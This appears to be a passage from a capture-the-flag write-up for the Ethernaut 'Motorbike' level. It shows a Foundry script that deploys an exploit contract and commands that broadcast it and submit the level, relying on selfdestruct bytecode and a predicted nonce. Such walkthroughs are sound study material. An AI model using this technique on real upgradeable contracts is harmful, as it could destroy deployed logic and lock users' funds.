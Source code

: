 A few things we have to pay attention to in the `exploit` contract: 

1. `NONCE_GUESS` is acquired by using this command:

   ```bash
   cast nonce --rpc-url $YOUR_RPC_URL$ $LEVEL_ADDRESS$
   ```

2. In `BOMB_ENGINE_GUESS`, you can see a minimal bytecode of only a selfdestruct fallback: it is pre-deployed. We have to make sure there is no extra transactions happen in the script.
3. We wrapped `solve()` in the constructor so that we can make sure all the create and attack logic happens within the same single transaction, which is the transaction of deploying exploit contract.

`MotorbikeCreateAndAttack.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Exploit} from "../src/ExploitContract.sol";

contract MotorbikeCreateAndAttackScript is Script {
    function run() external {
        vm.startBroadcast();
        Exploit exploit = new Exploit();
        vm.stopBroadcast();
        console.log("Exploit address:", address(exploit));
        console.log("Engine address:", address(exploit.engine()));
        console.log("Motorbike address:", address(exploit.motorbike()));
    }
}
```

We have to first run the script:

```bash
forge script script/MotorbikeCreateAndAttack.s.sol:MotorbikeCreateAndAttackScript --rpc-url $YOUR_RPC_URL --account $YOUR_ACCOUNT$ --broadcast
```

Then call submit manually:

```bash
cast send $EXPLOIT_CONTRACT_ADDRESS$ "submitLevelInstance()" --rpc-url $YOUR_RPC_URL --account $YOUR_ACCOUNT$
```

